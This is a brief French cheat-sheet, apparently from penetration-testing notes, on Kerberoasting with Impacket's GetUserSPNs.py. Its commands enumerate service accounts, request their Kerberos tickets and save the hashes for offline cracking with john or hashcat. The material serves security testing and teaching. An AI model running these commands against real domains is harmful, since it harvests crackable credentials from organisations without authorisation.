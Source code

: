 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Impacket

### Utiliser GetUserSPNs.py

 Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# remarque : on peut utliser -target-domain <domain> si on veut attaquer un autre domaine 

# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS (ajout de -request)
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```
